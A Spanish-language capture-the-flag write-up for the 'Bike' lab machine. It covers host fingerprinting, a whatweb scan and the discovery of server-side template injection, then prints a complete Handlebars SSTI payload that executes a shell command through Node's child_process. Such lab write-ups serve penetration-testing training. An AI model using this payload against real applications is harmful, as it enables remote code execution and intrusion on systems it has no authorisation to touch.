 ![[Bike1.png]]

![[Bike2.png]]

Por el ttl cercano a 64 sabemos que es una maquina linux y que el puerto 80 esta corriendo con un node.js y el 22 con un ssh

----

# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.178.83/
```

![[Bike3.png]]

![[Bike4.png]]

El script de nmap no anda, y el whatweb no nos da informacion relevante

-----

# Intrusion a la maquina con [[Server-Side Template Injection (SSTI)]] 

## Enumeracion

![[Bike5.png]]
Probamos poner {{7\*7}} y nos da un error que nos redirige a una consola en node.js                              | esta capado

![[Bike10.png]]

## Interceptamos petición con caido para mandar una [[Reverse shell]]


[Link del articulo hacktriks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejsl) del cual sacamos el payload
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

